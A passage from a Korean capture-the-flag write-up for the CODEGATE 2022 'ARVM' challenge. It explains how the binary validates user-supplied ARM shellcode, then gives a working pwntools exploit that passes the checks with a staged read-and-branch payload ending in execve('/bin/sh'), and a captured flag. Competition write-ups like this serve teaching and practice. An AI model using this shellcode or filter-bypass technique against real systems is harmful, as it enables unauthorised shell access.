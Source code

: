 FLAG : `codegate2022{d30015dfa3dba10b16b184b71c2eea751df11ac747771057d7c82187ca95dd7a4b04e91ff66ac444cf6918298a4a3ce7f963bac89e895848}`

## ARVM

`mmap`을 통해 실행권한이 존재하는 메모리를 할당받고, 해당 메모리에 쉘코드를 입력하는 문제이다

![https://tva1.sinaimg.cn/large/e6c9d24egy1gzs9fszg1zj20zk06iaav.jpg](https://tva1.sinaimg.cn/large/e6c9d24egy1gzs9fszg1zj20zk06iaav.jpg)

`0x1000`에 입력을 받고

![https://tva1.sinaimg.cn/large/e6c9d24egy1gzs9gdxkskj20l8098ab3.jpg](https://tva1.sinaimg.cn/large/e6c9d24egy1gzs9gdxkskj20l8098ab3.jpg)

메인함수에서 호출하는 `sub_10BB0`에서 입력을 검증한 후 `0x1000`으로 `pc`를 옮긴다
해당 함수를 분석하다보면 아래와 같이 인스트럭션을 검증하는 것을 확인할 수 있다.

- `pc`가 `0x1200`보다 작은 곳에서만 검증
- 점프하는 위치가 `0x5000`이상이 아니라면 통과
- `svc`인스트럭션의 경우 `1, 2, 3, 4, 5, 6`만 허용되며 `read`와 `write`는 `0x2000-0x3FFF`에서만 가능하다

추가로 입력 앞에 레지스터 초기화, 뒤에 exit하는 쉘코드를 추가한다.

따라서 아래와 같은 시나리오로 익스플로잇을 시도하였다.

1. `read(0, 0x2000, 0x100)`후, `bl #0x2000` 을 수행하는 쉘코드 작성
2. `execve("/bin/sh\\x00", 0 ,0)`을 수행하는 쉘코드를 `0x2000`에 입력
3. 쉘 휙득!

```python
from pwn import *

# p = process(["qemu-arm-static","-L","/usr/arm-linux-gnueabi","./app"])
# p = process(["qemu-arm-static","-L","/usr/arm-linux-gnueabi","-g","1337","./app"])

p = remote('15.165.92.159', 1234)

pay = b"\\x00\\x00\\xa0\\xe3" # mov r0, #0
pay += b"\\x02\\x1a\\xa0\\xe3" # mov r1, #8192
pay += b"\\x01\\x2b\\xa0\\xe3" # mov r2, #1024
pay += b"\\x03\\x70\\xa0\\xe3" # mov r7, #3
pay += b"\\x00\\x00\\x00\\xef" # svc #0
pay += b"\\xec\\x03\\x00\\xeb" # bl #0x2000

p.sendafter(b":> ", pay)

p.sendlineafter(b":> ", b"1")

p.recvuntil(b" : ")
p.sendafter(b":> ", p.recvline())

sleep(0.1)
p.send(b"\\x00")

pay = b"\\x14\\x00\\x02\\xe3\\x00\\x10\\xa0\\xe3\\x00\\x20\\xa0\\xe3\\x0b\\x70\\xa0\\xe3\\x00\\x00\\x00\\xef" + b"/bin/sh\\x00"
p.send(pay)

p.interactive()
```
